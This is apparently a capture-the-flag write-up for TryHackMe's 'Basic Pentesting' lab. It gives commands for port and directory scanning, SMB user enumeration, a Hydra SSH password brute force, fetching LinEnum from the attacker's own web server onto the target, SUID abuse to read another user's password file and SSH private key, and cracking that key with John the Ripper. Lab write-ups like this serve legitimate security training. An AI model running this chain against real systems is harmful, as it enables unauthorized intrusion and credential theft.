






# [Basic Pentesting](https://tryhackme.com/room/basicpentestingjt)
# Recon

Begin by running `nmap -sC -sV -vv -oN nmap/init [IP_ADDR]` to identify any open ports or potentially vulnerable services. This reveals six open ports on the machine. The main page hosting the web server is an “Under Maintenance”. Checking the page source will reveal a comment advising to check the “dev note” section to find out what to work on.

Next, run `gobuster dir -u http:/[IP_ADDR] -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt` to find another page.


*Fig I. The output from GoBuster.*

The revealed `/development` page hosts two files: `dev.txt` and `j.txt`.


*Fig II. The text in the dev.txt and j.txt note files.*

Knowing that SMB has been configured, a tool like [Enum4Linux](https://github.com/CiscoCXSecurity/enum4linux) can be used by running `enum4linux -a [IP_ADDR]` to enumerate the SMB shares and groups. This reveals two users: `jan` and `kay`. This also reveals that anonymous access is possible with a blank username/password.


*Fig III. The two users found by Enum4Linux.*

# Exploiting

With these usernames and the knowledge that there is a weak password set, run:

```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.176.209
```

<br/>After a few minutes, this should return the password for `jan`.


*Fig IV. Successful password crack performed with Hydra.*

# Privilege Escalation

A tool like [LinEnum](https://github.com/rebootuser/LinEnum) can be used to identify avenues of privilege escalation. This can be moved and executed on the target by using:

```bash
python3 -m http.server 80 //Run on own machine
wget [YOUR_IP]/LinEnum.sh //Run on target machine
chmod +x LinEnum.sh //Run on target machine
./LinEnum.sh
```

<br/>This returns a lot of information and picks up on a SUID bit file.


*Fig V. The SUID file identified by LinEnum.*

This can then be used to read the contents of any file on the system. In the home directory for `kay` there is a file containing their password which can be read.


*Fig VI. The password for Kay retrieved from the desktop.*

Another way to achieve this is to use the SUID bit to read the `/.ssh/id_rsa` file for the kay user. Once open, copy the `id_rsa` key to a file and crack it with John the Ripper by running:

```bash
ssh2john id_rsa 
john --wordlist /usr/share/wordlists/rockyou.txt id_rsa_hash.txt
```

<br/>This will reveal the password and allow a connection to be made using SSH.